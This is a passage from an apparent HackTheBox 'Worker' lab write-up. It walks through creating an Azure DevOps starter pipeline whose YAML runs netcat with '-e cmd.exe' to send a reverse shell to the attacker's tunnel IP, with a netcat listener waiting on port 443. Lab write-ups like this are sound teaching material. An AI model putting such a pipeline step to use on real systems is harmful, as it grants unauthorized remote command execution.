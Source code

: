 Select the `PartsUnlimited` repository.

![](/assets/images/htb-worker/26_worker_devops_pipelines_new_2.png)

Select the `Starter pipeline` as the pipeline.

![](/assets/images/htb-worker/27_worker_devops_pipelines_new_3.png)

Now we will be prompted to change the YAML file. We will remove everything except what is on lines 11 through 13 on the defualt template. We will then change the script to be are netcat command.

##### asure-pipelines.yml
``` yaml
steps:
- script: C:\Windows\Temp\nc.exe -e cmd.exe <YOUR TUNNEL IP> 443
  displayName: 'Run a one-line script'
```

![](/assets/images/htb-worker/28_worker_devops_pipelines_new_4.png)

Before we run this, we will need to start a netcat listener on port 443. If you still have your original shell (iis apppool\defaultapppool) open, you can close it, as we will not need it anymore.
